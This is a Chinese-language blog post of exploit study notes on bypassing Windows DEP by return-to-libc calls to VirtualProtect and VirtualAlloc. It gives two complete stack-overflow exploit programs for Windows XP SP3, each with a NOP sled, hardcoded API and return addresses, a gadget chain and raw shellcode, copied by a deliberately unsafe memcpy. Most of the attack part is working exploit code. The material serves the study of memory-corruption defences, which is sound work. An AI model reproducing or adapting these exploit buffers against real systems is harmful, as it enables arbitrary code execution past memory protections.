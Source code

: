 ```yaml
---
title: 漏洞学习笔记-015-利用VirtualProtect和VirtualAlloc攻击DEP
description: Ret2Libc之利用VirtualProtect和VirtualAlloc攻击DEP攻击DEP
date: 2020-11-19 17:43:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞学习笔记-015-利用virtualprotect和virtualalloc攻击dep/)

## 利用VirtualProtect攻击DEP

### 原理

> 利用`VirtualProtect`函数将栈页内存属性改为可执行

### 前置内容

- VirtualProtect参数

```cpp
BOOL VirtualProtect(
    LPVOID lpAddress,
    DWORD dwSize,
    DWORD flNewProtect,
    PDWORD lpflOldProtect
);

// 所以可以这样写
BOOL VirtualProtect(
    shellcode 所在内存空间起始地址,
    shellcode 大小,
    0x40,
    某个可写地址
);
```

- 这里势必存在0，因此攻击函数换为memcpy

### 步骤

- 修复EBP，这样调用函数的时候不会内存读取违规而异常
- 填入VirtualProtect的地址，将会返回于此
- 填入空的指令
- 填入返回地址
- 填入函数的参数
- 填入shellcode本身

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include<windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret `fix ebp`
"\xD4\x1A\x80\x7C" // VirtualProtect Address
"\x90\x90\x90\x90"
"\x8C\xFE\x12\x00" // ret Address
"\xB0\xFD\x12\x00" // Param Address: 0x0012FDB0
"\xFF\x00\x00\x00" // Param Size: 0x100
"\x40\x00\x00\x00" // Param NewProtect: 0x40
"\x00\x00\x3F\x00" // Param pOldProtect: 0x00910000
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char str[176];
    memcpy(str, shellcode, 420);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

## 利用VirtualAlloc攻击DEP

### 前置内容

- VirtualAlloc参数

```cpp
LPVOID WINAPI VirtualAlloc(
    __in_opt LPVOID lpAddress,
    __in SIZE_T dwSize,
    __in DWORD flAllocationType,
    __in DWORD flProtect
)
```

- 参数说明
  - `lpAddress`，申请内存区域的地址，如果这个参数是`NULL`，系统将会决定分配内存区域的位置，并且按`64KB`向上取整
  - `dwSize`，申请内存区域的大小
  - `flAllocationType`，申请内存的类型
  - `flProtect`，申请内存的访问控制类型，如读、写、执行等权限。内存申请成功时函数返回申请内存的起始地址，申请失败时返回`NULL`

### 代码

> 模拟环境：系统：Windows XP SP3，DEP：Optout，编译器：VC6，编译选项：禁用优化，版本：release

```cpp
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x85\x8B\x1D\x5D" // push esp pop ebp ret 4
"\xE1\x9A\x80\x7C" // Address of VirtualAlloc
"\x90\x90\x90\x90"
"\x70\x6F\xC1\x77" // VirtualAlloc ret address
"\x00\x00\x03\x00" // Param: lpAddress
"\xFF\x00\x00\x00" // Param: dwSize
"\x00\x10\x00\x00" // Param: flAllocationType
"\x40\x00\x00\x00" // Param: flProtect
"\x00\x00\x03\x00" // memcpy ret address
"\x00\x00\x03\x00" // Param: destin
"\x94\xFE\x13\x00" // Param: source
"\xFF\x00\x00\x00" // Param: n
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();
    return 0;
}
```

### 技术细节

- 首先使用VirtualAlloc申请一段空间用于执行shellcode
- 随后使用memcpy将shellcode复制过去
- 最后在memcpy返回时直接返回到shellcode payload的起始地址
